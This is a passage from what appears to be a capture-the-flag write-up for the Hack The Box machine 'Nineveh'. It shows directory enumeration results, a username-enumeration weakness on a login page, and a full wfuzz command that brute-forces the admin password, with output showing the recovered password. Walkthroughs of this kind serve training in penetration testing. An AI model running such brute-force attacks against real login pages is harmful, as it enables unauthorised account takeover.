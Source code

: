 ```
https://10.10.10.43:443/db                   (Status: 301) [Size: 309] [--> https://10.10.10.43/db/]
https://10.10.10.43:443/index.html           (Status: 200) [Size: 49]
```
### Web-Exploration

Exploring http://nineveh.htb/department/login.php, I realized that the error message tells me if the username is available. Checking the user ```test``` tells me that the username is not available, while checking the user ```admin``` tells me that that username is available.

![Test username](https://github.com/joelczk/writeups/blob/main/HTB/Images/Nineveh/test_username.png)
![Admin username](https://github.com/joelczk/writeups/blob/main/HTB/Images/Nineveh/admin_username.png)

## Exploit
### Bruteforcing login for /department endpoint

Testing the http://ninveh.htb/department/login.php endpoint with some of the common admin credentials does not seem to work as we are unable to gain access. 

Next, we will try to brute force the login with wfuzz using seclist's password list, and we are able to obtain the credentials

```
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -z file,/home/kali/Desktop/password.txt -d "username=admin&password=FUZZ" --hs Invalid http://nineveh.htb/department/login.php
Target: http://nineveh.htb/department/login.php
Total requests: 200

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000075:   302        59 L     113 W      1706 Ch     "1q2w3e4r5t"                
```
Using the credentials, we are able to find http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt where we got some saved text which prompted me to check out https://nineveh.htb/db
